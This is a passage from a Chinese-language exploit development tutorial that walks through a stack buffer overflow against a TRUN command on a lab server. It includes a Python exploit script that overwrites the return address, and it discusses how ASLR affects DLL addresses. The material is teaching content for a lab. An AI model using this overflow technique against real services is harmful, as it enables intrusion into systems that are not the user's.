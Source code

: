 你可以使用任何库，不仅仅是`kernel32.dll`。但是，如果你使用系统的库，比如`kernel32.dll`，那么由于 ASLR 机制（将在最后一章中解释），每次 Windows 启动时地址都会改变；但如果你使用与应用程序相关而与系统无关的库，那么地址就不会改变。

1.  然后，从攻击机器上，编辑我们的 exploit 如下：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
buffer =''
buffer+= 'A'*2006
buffer += '\x32\x31\xd9\x7d'
buffer+= 'C'*(5000-2006-4)
s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```

1.  然后，运行 exploit。指令指针现在指向`43434343`，这是我们的`C`字符：

![](img/00314.jpeg)
